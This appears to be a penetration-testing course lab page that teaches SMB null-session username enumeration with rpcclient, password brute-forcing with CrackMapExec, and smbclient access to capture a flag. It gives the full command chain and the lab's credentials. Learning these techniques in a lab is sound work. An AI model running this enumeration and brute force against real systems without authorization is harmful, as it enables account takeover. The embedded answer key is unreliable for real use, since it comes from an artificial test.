

# Exercise 3.4: Username Enumeration and Brute Force

## Before You Begin

In Exercise 3.3, you brute-forced the "admin" account; but someone told you the username was "admin." In a real penetration test, nobody hands you a username list. You have to find the usernames yourself. this exercise combines two skills you already have: user enumeration from Chapter 2 and brute force from Exercise 3.3. The result is a two-phase attack chain that mirrors real-world methodology.

Your VPN must be connected and your terminal open. You should be comfortable with `rpcclient` enumeration (Chapter 2) and CrackMapExec brute force (Exercise 3.3) before continuing.

## Scenario

James Mitchell notes that knowing a username upfront (like "admin") is unrealistic. In a real engagement, you must discover usernames first. The target exposes an SMB service on port 445 with a share called "private" that requires authentication. The IPC$ share allows null session access, which means you can enumerate usernames without credentials. Your job is to discover valid usernames through enumeration, then brute force their passwords to gain access.

## Your Objectives

- Enumerate usernames via a null session on the target
- Extract discovered usernames into a targeted user list
- Brute force discovered accounts using CrackMapExec with a password wordlist
- Authenticate with valid credentials and capture the flag

---

## Background: The Two-Phase Attack Chain

Credential attacks have two unknowns: the username and the password. Exercises 3.1 through 3.3 gave you the username upfront, so you only had to solve for one unknown. In practice, you must solve for both. The most efficient approach splits this into two phases:

**Phase 1; Enumeration:** Discover what usernames exist on the target. You learned this in Chapter 2 using `rpcclient` and `enum4linux`. A null session on the IPC$ share lets you query the SAM database for user accounts without any credentials.

**Phase 2; Exploitation:** Test passwords against the usernames you discovered. You learned this in Exercise 3.3 using CrackMapExec. The difference is that now your username input comes from Phase 1 rather than from an assumption.



The two-phase approach is dramatically more effective than blind guessing:

- **You only test passwords against accounts that actually exist.** Testing 10 passwords against 3 real usernames is 30 attempts. Guessing both usernames and passwords from a 100-user list and a 10-password list is 1,000 attempts. Enumeration makes the attack 33 times more efficient.
- **You can create targeted password lists** based on the username patterns you find. If usernames follow a pattern like `user1`, `user2`, you might infer corresponding password patterns.
- **You avoid wasting time on non-existent accounts.** Every attempt against a non-existent username is a wasted request that generates unnecessary noise.

## Tool Primer: Combining Existing Tools

this exercise does not introduce a new tool. Instead, it combines tools you already know into a single workflow.

**Step 1; Enumerate users with rpcclient:**

!!! kali "Enumerate users via a null session"
    The `rpcclient` call is the same null session enumeration you used in Chapter 2. The `-U ""` flag passes an empty username, and `-N` suppresses the password prompt.

    ```bash
    rpcclient -U "" -N <target_ip> -c 'enumdomusers'
    ```

    The output format is:

    ```
    user:[user1] rid:[0x3e8]
    ```

**Step 2; Extract usernames into a file:**

!!! kali "Extract usernames with grep"
    The `grep -oP` command uses a Perl-compatible regular expression to extract just the username from between the square brackets. The `\K` resets the match start, and `[^\]]+` captures everything up to the closing bracket.

    ```bash
    rpcclient -U "" -N <target_ip> -c 'enumdomusers' | grep -oP 'user:\[\K[^\]]+' > users.txt
    ```

    The result is a clean text file with one username per line.

**Step 3; Brute force with CrackMapExec:**

!!! kali "Brute force the discovered users"
    Note the key change from Exercise 3.3: `-u users.txt` (a file containing multiple usernames) instead of `-u admin` (a single hardcoded username).

    ```bash
    crackmapexec smb <target_ip> -u users.txt -p wordlist.txt
    ```

    CrackMapExec detects that the argument is a file path and iterates through every username-password combination automatically.

---

## Walkthrough

### Step 1: Launch the Exercise

Open the platform in your browser and start the exercise environment.

- Navigate to **Exercises** and locate the Username Enumeration and Brute Force lab
- Click **Launch** and wait for the status to change to **Running**
- Note the **target IP** displayed in the Active Lab View

### Step 2: Enumerate Users (Phase 1)

Run `rpcclient` with a null session to enumerate domain users on the target.

!!! kali "Enumerate domain users (Phase 1)"
    The null session queries the SAM database for accounts without any credentials. Replace `<target_ip>` with the IP shown in the Active Lab View.

    ```bash
    rpcclient -U "" -N <target_ip> -c 'enumdomusers'
    ```

    You should see output listing user accounts in the format `user:[name] rid:[0xHEX]`. Each line represents a user account on the target system.

### Step 3: Parse the Output

Examine the output from Step 2. Each line follows the same format:

```
user:[user1] rid:[0x3e8]
```

The username is between the first pair of square brackets. The RID (Relative Identifier) is the numeric ID assigned to the account. Note every username you see; you will need them in the next step.

### Step 4: Extract Usernames to a File

Pipe the rpcclient output through `grep` to extract just the usernames into a file.

!!! kali "Extract usernames into users.txt"
    The pipeline runs the same enumeration command and filters the output down to bare usernames.

    ```bash
    rpcclient -U "" -N <target_ip> -c 'enumdomusers' | grep -oP 'user:\[\K[^\]]+' > users.txt
    ```

    The `grep -oP` pipeline creates a file called `users.txt` containing one username per line, stripped of the surrounding formatting.

### Step 5: Verify the User List

Confirm the extraction worked correctly.

!!! kali "Verify the extracted user list"
    Print the file so you can confirm it holds clean usernames before feeding it to the brute force.

    ```bash
    cat users.txt
    ```

    You should see `user1` (and possibly other accounts). If the file is empty, re-run Step 4 and check that the rpcclient command produced output.

### Step 6: Create a Password Wordlist

Create a small wordlist of common passwords to test against the discovered accounts.

!!! kali "Create the password wordlist"
    The heredoc writes six common passwords to `wordlist.txt`, one per line.

    ```bash
    cat > wordlist.txt << 'EOF'
    password
    admin123
    password123
    qwerty
    123456
    letmein
    EOF
    ```

    In a real engagement, you would use a larger list such as `rockyou.txt` or a custom wordlist tailored to the target organization. Six entries are enough to demonstrate the technique here.

### Step 7: Brute Force with the User List (Phase 2)

Run CrackMapExec with both the user list and the password wordlist.

!!! kali "Brute force every user and password (Phase 2)"
    Passing files to both `-u` and `-p` tests every username against every password automatically.

    ```bash
    crackmapexec smb <target_ip> -u users.txt -p wordlist.txt
    ```

    CrackMapExec reads every username from `users.txt` and tests every password from `wordlist.txt` against each one. Watch the output as it works through the combinations.

### Step 8: Identify the Valid Credentials

Look for the `[+]` marker in the CrackMapExec output. Failed attempts show `[-]`, while a successful login shows `[+]` with the valid credentials. You should see a line indicating that `user1` authenticated successfully with the password `password123`.

### Step 9: Access the Private Share

Use the discovered credentials to connect to the "private" share.

!!! kali "Authenticate to the private share"
    The `-U user1%password123` syntax supplies the discovered username and password inline.

    ```bash
    smbclient //<target_ip>/private -U user1%password123
    ```

    You should see the `smb: \>` prompt, confirming successful authentication.

### Step 10: Download the Flag

List the share contents and download the flag file.

!!! kali "Download the flag from the SMB session"
    Run these at the `smb: \>` prompt. The `get` command copies `flag.txt` to your current Kali directory, then `exit` closes the session.

    ```
    smb: \> get flag.txt
    smb: \> exit
    ```

### Step 11: Read the Flag

Back at your terminal, read the downloaded file.

!!! kali "Read the downloaded flag"
    The downloaded `flag.txt` now sits in your Kali working directory.

    ```bash
    cat flag.txt
    ```

    The flag is in `OCR{<flag_here>}` format.

Paste this into the **Submit Flag** form on the platform and click **Submit**.

---

### Record Your Findings

> **Enumeration output:**
>
> ```
> (paste your rpcclient enumdomusers output here)
> ```
>
> **Extracted usernames:**
>
> | Username | RID |
> |----------|-----|
> |          |     |
> |          |     |
> |          |     |
>
> **CrackMapExec output:**
>
> ```
> (paste your CrackMapExec output here)
> ```
>
> **Discovered credentials:** ___________________________
>
> **How to submit:** enter the flag on the exercise page exactly as you recovered it, keeping the `OCR{...}` wrapper.
>
> **Flag:** ___________________________

---

## Analysis Questions

Take a moment to think through these questions. They connect the enumeration and exploitation phases into a broader methodology.

**1. Why is it important to enumerate usernames BEFORE brute forcing, rather than guessing both username and password?**

??? note "Reveal Answer"

    Enumeration eliminates half the unknowns. Testing 10 passwords against 3 real usernames requires 30 attempts. Guessing both from a 100-user list and a 10-password list requires 1,000 attempts. Enumeration makes the attack 33 times more efficient. Beyond efficiency, it also eliminates false negatives; you cannot miss a vulnerable account if you know it exists.

**2. The target username was "user1", not "admin". What would have happened if you skipped enumeration and only tested "admin"?**

??? note "Reveal Answer"

    You would have exhausted your entire wordlist against the wrong account and concluded there were no weak passwords. The actual vulnerability; `user1` with the password `password123`: would have gone undiscovered. Assumption-based testing carries exactly this core risk: you can run a technically perfect brute force attack and still miss the finding because you targeted the wrong account.

**3. You used rpcclient for enumeration. What other tool could you have used, and what additional information would it provide?**

??? note "Reveal Answer"

    `enum4linux -a` (from Chapter 2) would enumerate users plus groups, shares, password policies, and domain information. The password policy is particularly useful for tuning brute force attacks; if the minimum password length is 8 characters, you can skip shorter passwords in your wordlist, reducing the number of attempts. Group membership information can also help you prioritize which accounts to target first.

---

## Key Takeaways

- The two-phase attack chain (enumerate then brute force) is how real penetration tests discover credentials
- User enumeration eliminates guesswork and makes credential attacks dramatically more efficient
- CrackMapExec accepts both single usernames (`-u admin`) and user lists (`-u users.txt`)
- Never assume the target username is "admin"; always enumerate first
- You have now combined enumeration with brute force into a two-phase chain. The final lab extends this into a complete attack: from initial reconnaissance through every enumeration technique to multi-user credential testing and authenticated access
